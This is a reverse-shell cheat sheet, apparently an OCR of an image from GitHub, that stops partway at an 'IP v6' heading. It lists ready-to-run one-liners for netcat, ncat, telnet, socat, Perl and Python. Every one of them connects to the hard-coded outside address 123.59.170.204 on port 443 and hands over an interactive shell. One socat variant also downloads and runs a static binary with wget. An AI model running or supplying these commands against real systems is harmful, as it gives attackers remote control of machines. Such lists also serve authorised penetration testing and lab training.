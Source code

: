 ------------------------
rm -f x; mknod x p && nc 123.59.170.204 443 0<x | /bin/bash 1>x

Ncat:
ncat 123.59.170.204 443 -e /bin/bash
------------------------
ncat --udp 123.59.170.204 443 -e /bin/bash

Telnet:
rm -f /tmp/p; mknod /tmp/p p && telnet 123.59.170.204 443 0/tmp/p 2>&1
------------------------
telnet 123.59.170.204 443 | /bin/bash | telnet 123.59.170.204 444
------------------------
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet 123.59.170.204 443 > f
------------------------
rm -f x; mknod x p && telnet 123.59.170.204 443 0<x | /bin/bash 1>x
------------------------

Socat:
Victim:
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:123.59.170.204:443
------------------------
socat tcp-connect:123.59.170.204:443 exec:"bash -li",pty,stderr,setsid,sigint,sane
------------------------
Listener:
socat file:`tty`,raw,echo=0 TCP-L:443
------------------------
Victim:
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:123.59.170.204:443
------------------------

Perl:
Victim:
perl -e 'use Socket;$i="123.59.170.204";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
------------------------
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"123.59.170.204:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
------------------------
Windows only, Victim:
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"123.59.170.204:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
------------------------

Python:
IP v4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("123.59.170.204",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
------------------------
export RHOST="123.59.170.204";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
------------------------
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("123.59.170.204",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
------------------------ IP v6